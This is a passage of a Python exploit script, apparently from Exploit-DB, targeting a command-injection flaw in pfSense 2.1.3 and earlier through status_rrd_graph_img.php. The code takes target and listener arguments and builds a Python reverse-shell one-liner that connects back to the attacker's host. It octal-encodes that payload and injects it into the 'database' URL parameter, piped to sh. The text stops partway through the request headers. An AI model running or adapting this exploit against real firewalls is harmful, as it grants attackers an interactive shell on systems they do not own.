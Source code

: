 <https://www.exploit-db.com/exploits/43560/>

```python
#!/usr/bin/env python3

import argparse
import requests
import sys
import urllib
import urllib3
import collections

'''
pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection. 
This script will return a reverse shell on specified listener address and port.
Ensure you have started a listener to catch the shell before running!
'''

parser = argparse.ArgumentParser()
parser.add_argument("--rhost", help = "Remote Host")
parser.add_argument('--lhost', help = 'Local Host listener')
parser.add_argument('--lport', help = 'Local Port listener')
parser.add_argument("--username", help = "pfsense Username")
parser.add_argument("--password", help = "pfsense Password")

if len(sys.argv[1:]) == 0:
    parser.print_help()
    parser.exit()

args = parser.parse_args()

rhost = args.rhost
lhost = args.lhost
lport = args.lport
username = args.username
password = args.password


# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)


payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"

headers = [
	('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'), 
	('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'),
	('Accept-Language', 'en-US,en;q=0.5'),
```